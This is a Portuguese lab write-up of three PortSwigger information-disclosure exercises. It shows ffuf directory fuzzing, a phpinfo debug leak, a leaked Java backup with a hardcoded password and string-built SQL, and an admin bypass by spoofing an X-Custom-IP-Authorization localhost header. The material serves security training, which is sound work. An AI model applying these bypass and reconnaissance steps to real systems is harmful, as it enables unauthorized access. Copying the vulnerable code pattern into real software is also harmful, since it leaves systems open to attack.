


<div class="page"/>

# **Information disclosure | Sonael de A. Angelos Neto**

- ## **Introdução a vulnerabilidade Information disclosure**

  - ### **O que é?**
    
    **Information disclosure** é um tipo de vulnerabilidade que ocorre quando um invasor consegue acessar informações confidenciais que deveriam estar protegidas. Isso pode incluir desde dados pessoais, como nomes e endereços, até informações comerciais confidenciais, como segredos comerciais ou dados financeiros.

  - ### **Como funciona?**

    As **Information disclosure**  podem ocorrer em muitos tipos diferentes de sistemas, incluindo software, sites e redes. Eles podem ser causados por uma variedade de fatores, como práticas de segurança insatisfatórias, senhas fracas, armazenamento de dados não seguro ou design de software defeituoso. Se não forem tratadas adequadamente, as **Information disclosure**  podem ter sérias consequências, incluindo roubo de identidade, perda financeira e danos à reputação de uma organização.


  ### Nesse documento, iremos explorar a vulnerabilidade `"Information disclosure"`, utilizando **3** laboratórios diferentes da [Portswigger Academy](https://portswigger.net/web-security/all-labs), sendo eles:

  - #### ***Information disclosure on debug page.***
  - #### ***Source code disclosure via backup files.***
  - #### ***Authentication bypass via information disclosure.***


---

### **Ferramentas utilizadas:**

- #### [ffuf](https://github.com/ffuf/ffuf) :
    - Utilizaremos o `ffuf` para realizar o brute force de login.

- #### [Burp Suite](https://portswigger.net/burp) :
    - Utilizaremos o `Burp Suite` para interceptar as requisições e analisar o que está sendo enviado para o back-end.

---

## **• Information disclosure on debug page.**

O objetivo desse laboratório é encontrar a `SECRET_KEY` que é uma variável de ambiente.

Primeiramente iremos utilizar o `ffuf` para encontrar os diretórios que estão disponíveis no site.

```bash

╭─[LAPTOP-HRI3FQ3J] as root in /usr/share/wordlists/seclists/Discovery/Web-Content                             03:13:18
╰──➤ ffuf -w common.txt -u https://0a8a00090376b862c09c7216003200b3.web-security-academy.net/FUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://0a8a00090376b862c09c7216003200b3.web-security-academy.net/FUZZ
 :: Wordlist         : FUZZ: common.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

analytics               [Status: 200, Size: 0, Words: 1, Lines: 1, Duration: 205ms]
cgi-bin                 [Status: 200, Size: 410, Words: 126, Lines: 17, Duration: 225ms]
cgi-bin/                [Status: 200, Size: 410, Words: 126, Lines: 17, Duration: 253ms]
favicon.ico             [Status: 200, Size: 15406, Words: 11, Lines: 1, Duration: 221ms]
filter                  [Status: 200, Size: 12253, Words: 5259, Lines: 219, Duration: 218ms]
:: Progress: [4713/4713] :: Job [1/1] :: 24 req/sec :: Duration: [0:03:05] :: Errors: 0 ::

```

Onde no comando acima temos `-w common.txt` que é o arquivo de wordlist que iremos utilizar e `-u https://0a8a00090376b862c09c7216003200b3.web-security-academy.net/FUZZ` que é a URL que iremos fazer o Fuzzing.

O `ffuf` nos retornou 5 diretórios, sendo eles:

- `analytics`
- `cgi-bin`
- `cgi-bin/`
- `favicon.ico`
- `filter`

Dentre esses diretórios um chama atenção, o `cgi-bin`, pois `CGI` é um padrão para executar programas em um servidor web que pode gerar conteúdo dinâmico para um site.

Ao acessar o diretório `cgi-bin` iremos encontrar a seguinte página:


Onde existe apenas um arquivo chamado `phpinfo.php`, que é um arquivo que exibe informações sobre a configuração do PHP.

Ao acessar o arquivo `phpinfo.php` iremos encontrar a variável de ambiente `SECRET_KEY` que é a chave que estamos procurando.


Agora basta copiar a chave e enviar para o desafio.


Concluindo o laboratório.


---

## **• Source code disclosure via backup files.**

Este laboratório contém um vazamento de seu código-fonte por meio de arquivos de backup em um diretório oculto. Para resolver o laboratório, basta identificar e enviar a senha do banco de dados, que está codificada no código-fonte vazado.

Esse laboratório contém um arquivo chamado `robots.txt` que é um arquivo que contém instruções para robôs de busca, como o Googlebot, Bingbot e YandexBot. Nesse arquivo temos o seguinte conteúdo:


``` txt

User-agent: *
Disallow: /backup

```

Nele temos a instrução `Disallow: /backup` que indica que o diretório `backup` não deve ser indexado pelo robô de busca.

Esse mesmo resultado poderia ser obtido através do `ffuf`:

```bash

╭─[LAPTOP-HRI3FQ3J] as root in /usr/share/wordlists/seclists/Discovery/Web-Content                                                         03:44:54
╰──➤ ffuf -w quickhits.txt -u https://0afc00ee033c6568c0819553004100c5.web-security-academy.netFUZZ

        /'___\  /'___\           /'___\
       /\ \__/ /\ \__/  __  __  /\ \__/
       \ \ ,__\\ \ ,__\/\ \/\ \ \ \ ,__\
        \ \ \_/ \ \ \_/\ \ \_\ \ \ \ \_/
         \ \_\   \ \_\  \ \____/  \ \_\
          \/_/    \/_/   \/___/    \/_/

       v1.5.0 Kali Exclusive <3
________________________________________________

 :: Method           : GET
 :: URL              : https://0afc00ee033c6568c0819553004100c5.web-security-academy.netFUZZ
 :: Wordlist         : FUZZ: quickhits.txt
 :: Follow redirects : false
 :: Calibration      : false
 :: Timeout          : 10
 :: Threads          : 40
 :: Matcher          : Response status: 200,204,301,302,307,401,403,405,500
________________________________________________

/backup                 [Status: 200, Size: 435, Words: 126, Lines: 17, Duration: 202ms]
/backup/                [Status: 200, Size: 435, Words: 126, Lines: 17, Duration: 208ms]
/Backup/                [Status: 200, Size: 435, Words: 126, Lines: 17, Duration: 212ms]
:: Progress: [2558/2558] :: Job [1/1] :: 43 req/sec :: Duration: [0:01:39] :: Errors: 0 ::

```

Onde no comando acima temos `-w quickhits.txt` que é o arquivo de wordlist que iremos utilizar e `-u https://0afc00ee033c6568c0819553004100c5.web-security-academy.netFUZZ` que é a URL que iremos fazer o Fuzzing.

Dentro do diretório `backup` temos o arquivo `ProductTemplate.java.bak` que contém o seguinte código:

``` java

package data.productcatalog;

import common.db.JdbcConnectionBuilder;

import java.io.IOException;
import java.io.ObjectInputStream;
import java.io.Serializable;
import java.sql.Connection;
import java.sql.ResultSet;
import java.sql.SQLException;
import java.sql.Statement;

public class ProductTemplate implements Serializable
{
    static final long serialVersionUID = 1L;

    private final String id;
    private transient Product product;

    public ProductTemplate(String id)
    {
        this.id = id;
    }

    private void readObject(ObjectInputStream inputStream) throws IOException, ClassNotFoundException
    {
        inputStream.defaultReadObject();

        ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "y05a3ysdmwilvzvjebmnd7hky0letchi"
        ).withAutoCommit();
        try
        {
            Connection connect = connectionBuilder.connect(30);
            String sql = String.format("SELECT * FROM products WHERE id = '%s' LIMIT 1", id);
            Statement statement = connect.createStatement();
            ResultSet resultSet = statement.executeQuery(sql);
            if (!resultSet.next())
            {
                return;
            }
            product = Product.from(resultSet);
        }
        catch (SQLException e)
        {
            throw new IOException(e);
        }
    }

    public String getId()
    {
        return id;
    }

    public Product getProduct()
    {
        return product;
    }
}

```

Onde neste trecho de código podemos identificar a senha do banco de dados `y05a3ysdmwilvzvjebmnd7hky0letchi`:

``` java


        ConnectionBuilder connectionBuilder = ConnectionBuilder.from(
                "org.postgresql.Driver",
                "postgresql",
                "localhost",
                5432,
                "postgres",
                "postgres",
                "y05a3ysdmwilvzvjebmnd7hky0letchi"
        ).withAutoCommit();

```

Agora basta copiar a senha e enviar resovendo assim o desafio.


---

## **• Authentication bypass via information disclosure.**

O objetivo deste laboratório é logar como `administrator` sem saber a senha do mesmo.

ao logar como `wiener` e tentarmos acessar `/admin` temos o seguinte erro:


A mensagem indica que apenas usuários locais podem acessar o diretório `/admin` e que o usuário `wiener` não é um usuário local.

Ao interceptar a requisição com o Burp Suite e enviar para o Repeater temos o seguinte:

``` http

GET /admin HTTP/1.1
Host: 0a8c002f040687abc09b634d00b10036.web-security-academy.net
Cookie: session=QjuKBQEv9t2xwP8R53HcIe9pgKAnYZVj
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:108.0) Gecko/20100101 Firefox/108.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: pt-BR,pt;q=0.8,en-US;q=0.5,en;q=0.3
Accept-Encoding: gzip, deflate
Upgrade-Insecure-Requests: 1
Sec-Fetch-Dest: document
Sec-Fetch-Mode: navigate
Sec-Fetch-Site: none
Sec-Fetch-User: ?1
Te: trailers
Connection: close

```

Aqui nos iremos mudar o método da requisição para `Trace` pois este é um método HTTP que permite que o cliente solicite informações de rastreamento sobre o caminho que a solicitação faz até o servidor.

**request** | **response** 
:---------: | :------:
 | 


Aqui podemos ver que o servidor está retornando o caminho que a requisição fez até o servidor, e podemos ver que o usuário `wiener` está acessando o servidor através do IP `177.101.13.114` que não é um IP local.

Para mudar isso temos que alterar as configurações do **Burp Suite** em `"Proxy" > "Options" >  "Match and Replace" > "Add"` e adicionar o seguinte:

> `X-Custom-IP-Authorization: 127.0.0.1`

Assim toda vez que o Burp Suite interceptar uma requisição ele irá adicionar o cabeçalho `X-Custom-IP-Authorization` com o valor `127.0.0.1`


Agora basta recarregar a página e ver que estamos com o usuário `administrator` logado.



E para finalizar basta excluir o usuário `carlos` e o desafio será concluído.




---

## **• Mitigação.**


***Existem várias maneiras de mitigar o risco de vulnerabilidades de divulgação de informações:***

- **Implemente controles de acesso:** certifique-se de que apenas usuários autorizados tenham acesso a informações confidenciais. Use senhas fortes e considere o uso de autenticação de dois fatores para se proteger contra acesso não autorizado.

- **Criptografar dados:** use criptografia para proteger dados em trânsito e em repouso. Isso tornará mais difícil para os invasores acessarem informações confidenciais, mesmo que consigam acessá-las.

- **Use protocolos seguros:** use protocolos seguros, como *HTTPS* e *SSH*, para proteger a comunicação entre servidores e clientes. Isso ajudará a evitar a interceptação de informações confidenciais.

- **Use práticas de codificação seguras:** certifique-se de que os desenvolvedores sigam práticas de codificação seguras ao desenvolver software e aplicativos. Isso pode ajudar a evitar que vulnerabilidades sejam introduzidas em primeiro lugar.

- **Atualize e corrija regularmente os sistemas:** mantenha todos os sistemas e software atualizados com os patches e atualizações de segurança mais recentes. Isso ajudará a corrigir vulnerabilidades conhecidas e impedir que invasores as explorem.

- **Realize avaliações regulares de segurança:** Avalie regularmente a segurança de seus sistemas e redes para identificar e solucionar possíveis vulnerabilidades. Isso pode incluir testes de penetração, varreduras de vulnerabilidade e revisões de código.

---

## **• Dificuldades.**

*Nenhuma dificuldade relevante.*

---

## **• Conclusão.**

*Em resumo, a vulnerabilidade de Information disclosure é um problema sério que ocorre quando informações confidenciais são acessadas por pessoas não autorizadas. Isso pode incluir qualquer coisa, desde dados pessoais como nomes e endereços até informações comerciais confidenciais, como segredos de negócio ou dados financeiros. As vulnerabilidades de Information disclosure podem ocorrer em muitos tipos de sistemas, incluindo software, websites e redes. Elas podem ser causadas por uma variedade de fatores, como más práticas de segurança, senhas fracas, armazenamento de dados inseguro ou design falho de software. Se não forem adequadamente abordadas, as vulnerabilidades de Information disclosure podem ter consequências graves, incluindo roubo de identidade, perda financeira e danos à reputação de uma organização. É importante tomar medidas para proteger as informações confidenciais e minimizar o risco de vulnerabilidades de Information disclosure, implementando controles de acesso, criptografando dados, usando protocolos seguros, seguindo práticas de codificação segura, atualizando e corrigindo regularmente os sistemas e realizando avaliações de segurança regulares. Dessa forma, as organizações podem proteger suas informações confidenciais e minimizar o risco de vulnerabilidades de Information disclosure.*

---

## **• Referências.**

- [OWASP - Sensitive Data Exposure](https://owasp.org/www-project-top-ten/2017/A3_2017-Sensitive_Data_Exposure)

- [PortSwigger - Information disclosure](https://portswigger.net/web-security/information-disclosure)

- [OWASP - Misconfiguration](https://owasp.org/www-project-top-ten/OWASP_Top_Ten_2017/Top_10-2017_A6-Security_Misconfiguration)

- [ChatGPT](https://chat.openai.com/chat)


----

## **• Laboratórios.**

- [Information disclosure on debug page.](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-on-debug-page)

- [Source code disclosure via backup files.](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-via-backup-files)

- [Authentication bypass via information disclosure.](https://portswigger.net/web-security/information-disclosure/exploiting/lab-infoleak-authentication-bypass)

